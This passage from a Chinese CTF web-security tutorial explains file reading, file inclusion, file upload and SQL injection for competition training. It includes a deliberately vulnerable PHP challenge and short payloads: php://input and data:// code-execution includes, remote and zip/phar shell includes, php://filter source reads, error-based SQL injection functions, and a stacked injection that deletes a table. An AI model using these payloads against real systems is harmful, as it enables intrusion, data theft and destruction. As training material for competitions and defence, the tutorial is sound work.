- 针对 `../`、`flag` 等关键字的过滤绕过
- 无回显场景下通过 DNS/HTTP 外带内容
- 指定内容匹配读取（如通过 `file_get_contents()` 读取文件内容后，构造参数匹配目标内容，触发 flag 输出）

#### 核心区别与进阶考法
与文件包含不同，文件读取仅读取内容不执行代码，其中指定内容匹配是进阶考法：题目会要求读取文件并让输入参数与文件内容一致，方可输出 flag，重点考察选手精准读取文件内容并构造匹配参数的能力，是入门 CTF 必须掌握的核心技巧。
```php
<?php
highlight_file(__FILE__);
include "flag.php";
//extract将数组的键变为变量名，将值变为变量值
extract($_GET);
if(!empty($ac))
{
    $f=trim(file_get_contents($fn));
    if($ac==$f)
    {
        echo"<p>This is flag:" ." $flag</p>";
    }
    else
    {
        echo "<p>sorry!</p>";
    }
}
?>
```
**伪协议利用**：
方法 1，利用 `php://input` 协议
方法2，利用data协议，`data://text/plain,`

### 1.4.4 文件包含

文件包含是 CTF Web 方向的核心考点，也是高危漏洞之一，核心考察选手对文件包含函数、伪协议利用和路径绕过的掌握。其本质是服务器通过 `include/require` 等函数加载用户可控路径的文件，且未做严格校验，攻击者可加载恶意文件执行代码，或读取敏感文件内容。

#### 核心考点

- **本地文件包含（LFI）**：利用 `../` 路径穿越加载服务器本地文件（如 `/etc/passwd`、`flag` 文件）
- **远程文件包含（RFI）**：加载远程服务器的恶意脚本（需开启 `allow_url_include`）
- **伪协议利用**：如 `php://filter` 读取源码、`php://input` 执行 POST 代码
- **过滤绕过**：双写 `../`、编码变形、截断绕过等

#### 核心区别与关键技巧
与文件读取不同，文件包含不仅能读取内容，还能执行文件中的代码，常结合文件上传、缓存文件等场景出题。掌握包含函数特性、伪协议用法和路径变形技巧，是解决此类题型的关键，也是进阶代码执行漏洞利用的基础。

- **无后缀限制**：
```php
include "./123.jpg";
include "http://xxx.xxx.xxx.xxx/123.jpg";
include "ftp://xxx.xxx.xxx.xxx/123.jpg";
include "data://text/plain,<?php phpinfo();?>";
include "php://input";
// POST发送<?php phpinfo();?>
```
- **存在后缀限制**:
```php
include "zip://123.zip#shell.php";
include "phar://./123.jpg/shell.php";
?page=http://xxx.xxx.xxx.xxx/123
include "http://xxx.xxx.xxx.xxx/123.php";
include "ftp://xxx.xxx.xxx.xxx/123.php";
include "data://text/plain,<?php phpinfo();?>.php";
```
- **读取文件**:
```php
include "php://filter/convert.base64-encode/resource=index.php";
```

### 1.4.5 文件上传
#### CTF Web 文件上传考点总结
文件上传是 CTF Web 方向的高频高危考点，核心考察选手对文件上传校验机制、绕过技巧及漏洞利用的掌握。其本质是**服务器未对上传文件的类型、后缀、内容做严格校验，攻击者上传恶意脚本文件（如 PHP 木马），并通过访问该文件实现代码/命令执行，最终获取 flag**。

#### 核心考点
- **前端 JS 校验绕过**：禁用 JS / 修改前端代码
- **后端后缀校验绕过**：
  - 黑名单绕过：如 `php5`/`phtml`
  - 白名单绕过：如 `%00` 截断、大小写混合（如 `PhP`）
- **文件内容校验绕过**：图片马 + 文件包含、修改文件头伪装合法文件
- **上传路径可控利用**：自定义文件名实现路径穿越
- **上传后缓存文件/临时文件的利用**：通配符匹配、权限绕过

#### 核心联动与关键技巧
文件上传常与文件包含、命令执行等漏洞联动出题，是 CTF 中综合性较强的考点。掌握各类校验机制的原理、常见绕过 Payload 及文件上传后的利用思路，是解决此类题型的关键，也是进阶 CTF Web 必备的核心能力。
### 1.4.6 SQL注入

#### CTF Web SQL 注入考点总结
SQL 注入是 CTF Web 方向最经典、占比最高的核心考点，主要考察选手对数据库语法、闭合方式、过滤绕过及数据库脱库技巧的掌握程度。漏洞成因是**后端代码将用户可控参数直接拼接入 SQL 查询语句，未做安全过滤，导致攻击者可插入恶意 SQL 语句，篡改原有查询逻辑**。

#### 常见考点

- 基于字符型、数字型的注入点判断
- 通过 order by、union select 联合查询脱库，获取库名、表名、字段及 flag 内容
- 针对关键词过滤的绕过技巧：如大小写变形、注释绕过、字符拼接、编码绕过、等价函数替换等
- 无回显环境下的利用方式：布尔盲注、时间盲注
- 高阶利用方式：报错注入、堆叠注入、二次注入等

#### 核心价值
SQL 注入题型覆盖面广、难度跨度大，既适合入门选手掌握基础注入流程，也是进阶比赛中综合绕过与脚本编写的重要考察点，是 CTF Web 学习中必须牢固掌握的核心技能。

- **SQL注入 - 字符串闭合**："OR语句，双重OR语句、注释符--和#"等方式
- **SQL 注入 - 联合查询**:
联合查询注入（UNION SELECT Injection）是**基于 SQL UNION 语句特性的经典注入手法，也是 CTF Web 赛道常见考点，核心适用于页面有数据回显的场景。其原理是利用 UNION 语句 “纵向拼接多个 SELECT 结果集” 的特性，攻击者构造恶意联合查询语句，将数据库敏感信息（库名、表名、字段名、flag 数据）注入到正常查询结果中，通过页面回显直接获取。**
该注入方式的关键前提是联合查询与主查询满足 “字段数一致、字段类型兼容”，核心优势是利用效率高、信息获取直接，无需复杂盲注猜解，是 CTF 中快速拿分的核心技巧。
- **SQL注入 - 报错注入**：
报错注入是 SQL 注入的重要分支，**核心是利用数据库报错机制，强制输出数据库敏感信息，特别适用于无回显但有报错提示的场景（比如页面不显示查询结果，但输入错误 SQL 会返回数据库报错），是 CTF Web 题目中高频考点**。
当 SQL 语句执行出错时，数据库会将错误信息返回给页面，攻击者构造包含敏感信息的恶意 SQL 语句，让数据库在报错时把敏感数据（库名、表名、字段名、数据）“附带” 在错误提示中，从而实现信息泄露。

MySQL 中实现报错注入的核心函数有 3 个，优先掌握前两个。

1. 方法1：updatexml(1, 拼接的敏感信息, 1)
第二个参数要求是合法的 XPath 格式，传入非 XPath 字符串会触发报错，报错信息包含该字符串

2. 方法2：extractvalue(1, 拼接的敏感信息)
同上，第二个参数非法 XPath 导致报错

3. 方法3：
```sql
select count(*),concat(敏感信息,floor(rand(0)*2)) as a from information_schema.tables group by a
```
- **SQL注入 - 堆叠注入**：

在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1;DELETE FROM products服务器端生成的sql语句为： Select * from products where productid=1;DELETE FROM products;当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

**任何一个返回结果：html页面源代码、代码、请求头、请求体，过滤方式(绕过等),都是信息**

## 1.5 本章小结

本章围绕CTF比赛及Web安全方向展开，系统梳理了从认知到入门、从基础到进阶的完整学习路径，为CTF Web入门者搭建了清晰的知识框架。首先，通过CTF比赛介绍，明确了CTF的竞赛形式与核心宗旨，让大家了解Web安全在CTF赛事中的核心地位，以及参赛的意义与价值。

其次，重点讲解了CTF Web安全方向的常见题目类型，涵盖命令执行、文件读取、文件包含等高频考点，剖析了各类题型的核心特征与考查重点，帮助大家快速识别题目类型、找准解题方向。随后，CTF Web入门部分聚焦基础知识点与解题思路，从漏洞成因、基础Payload构造入手，引导新手掌握入门必备技能，建立解题信心。

最后，CTF Web进阶内容则围绕过滤绕过、伪协议利用等难点展开，助力大家突破瓶颈，提升解题深度与实战能力。整体而言，本次分享兼顾理论与实操，既明确了CTF Web的学习重点，也梳理了从入门到进阶的循序渐进的学习方法，希望能为大家后续备战CTF比赛、深耕Web安全领域提供清晰指引，助力大家在CTF赛事中稳步提升、取得突破。